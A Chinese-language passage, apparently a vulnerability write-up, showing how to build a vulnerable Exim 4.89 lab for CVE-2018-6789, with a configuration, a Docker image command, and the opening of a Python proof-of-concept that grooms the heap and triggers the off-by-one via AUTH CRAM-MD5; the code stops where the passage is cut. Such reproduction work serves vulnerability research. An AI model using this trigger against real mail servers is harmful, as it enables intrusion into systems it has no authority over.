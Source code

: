 我们选择下载早期版本的源代码进行编译安装：

```
sudo apt-get build-dep exim4
wget https://github.com/Exim/exim/releases/download/exim-4_89/exim-4.89.tar.xz
```

在编译过程中要安装一些依赖库，还需要修改Makefile、新建用户、配置日志文件的权限等，可以参考[Dockerfile](https://github.com/skysider/VulnPOC/blob/master/CVE-2018-6789/Environment/Dockerfile)（https://github.com/skysider/VulnPOC/blob/master/CVE-2018-6789/Environment/Dockerfile）的安装过程。

exim可以在运行时指定配置文件，为了触发漏洞以及命令执行，需要配置CRAM-MD5 authenticator以及设置acl_smtp_mail等，配置文件如下：

```
acl_smtp_mail=acl_check_mail
acl_smtp_data=acl_check_data
begin acl
acl_check_mail:
  .ifdef CHECK_MAIL_HELO_ISSUED
  deny
    message = no HELO given before MAIL command
    condition = ${if def:sender_helo_name {no}{yes}}
  .endif

  accept

acl_check_data:
  accept

begin authenticators
fixed_cram:
  driver = cram_md5
  public_name = CRAM-MD5
  server_secret = ${if eq{$auth1}{ph10}{secret}fail}
  server_set_id = $auth1
```

以调试模式启动exim服务：

```shell
exim -bd -d-receive -C conf.conf
```

也可以直接使用docker来验证该漏洞（上面的命令为默认启动命令）：

```shell
docker run -it --name exim -p 25:25 skysider/vulndocker:cve-2018-6789
```

### 3. 漏洞测试

我们使用一个简单的poc来触发漏洞，poc代码如下：

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
import smtplib
from base64 import b64encode

print "this poc is tested in exim 4.89 x64 bit with cram-md5 authenticators"
ip_address = raw_input("input ip address: ")
s = smtplib.SMTP(ip_address)
#s.set_debuglevel(1)
# 1. put a huge chunk into unsorted bin
s.ehlo("mmmm"+"b"*0x1500) # 0x2020

# 2. send base64 data and trigger off-by-one
#raw_input("overwrite one byte of next chunk")
s.docmd("AUTH CRAM-MD5")

```